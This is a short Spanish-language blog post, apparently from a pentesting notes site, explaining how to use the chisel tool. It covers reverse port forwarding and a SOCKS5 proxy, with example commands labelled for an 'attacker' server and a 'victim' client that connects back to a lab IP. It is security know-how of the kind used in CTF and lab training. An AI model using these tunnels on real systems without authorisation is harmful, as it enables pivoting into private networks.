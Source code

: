 ```yaml
---
layout: single
title: Chisel
excerpt: "Explicación de como utilizar la herramienta chisel para realizar port forwarding."
date: 2021-11-28
classes: wide
header:
  teaser: /assets/images/Tools/bash-icon.png
  teaser_home_page: true
  icon: /assets/images/tool.png
categories:
  - Tools
tags:
  - Port Forwarding
  - CLI

---
```



# Chisel
## Definición
Chisel es una herramienta hubicada en [github](https://github.com/jpillora/chisel), con la que podemos hacer port forwarding.

![overview](https://camo.githubusercontent.com/6209fb99bc6edcb2341900468f78b09f03d0be74e03b48e49beb87c52b55362c/68747470733a2f2f646f63732e676f6f676c652e636f6d2f64726177696e67732f642f317035335657787a474e667938726a722d6d5738707669734a6d686b6f4c6c383276416763744f5f366631772f7075623f773d39363026683d373230)

## Port Forwarding
### Uso

  * <span style="color:red">*Atacante:*</span>
    * chisel server --reverse --port \<puerto para chisel\>
  * <span style="color:#7cb9e8">*Victima:*</span>
    * chisel client \<ip del atacante\>:\<puerto para chisel\> R:\<puerto del servicio en maquina de atacante\>:\<ip a la que accede la maquina víctima (puede ser el loopback)\>:\<puerto del servicio\>

### Ejemplo

* <span style="color:red">*Atacante:*</span>
    * chisel server --reverse --port 1234
* <span style="color:#7cb9e8">*Victima:*</span>
    * chisel client 10.10.14.14:1234 R:8888:127.0.0.1:8888

## Dynamic Port Forwarding (proxy)
Same as -D option in ssh but with chisel

* <span style="color:red">*Atacante:*</span>
    * chisel server --reverse --port 1234 --socks5
* <span style="color:#7cb9e8">*Victima:*</span>
    * chisel client 10.10.14.14:1234 R:socks

And then chisel will start a **SOCK5** proxy in **127.0.0.1:1080**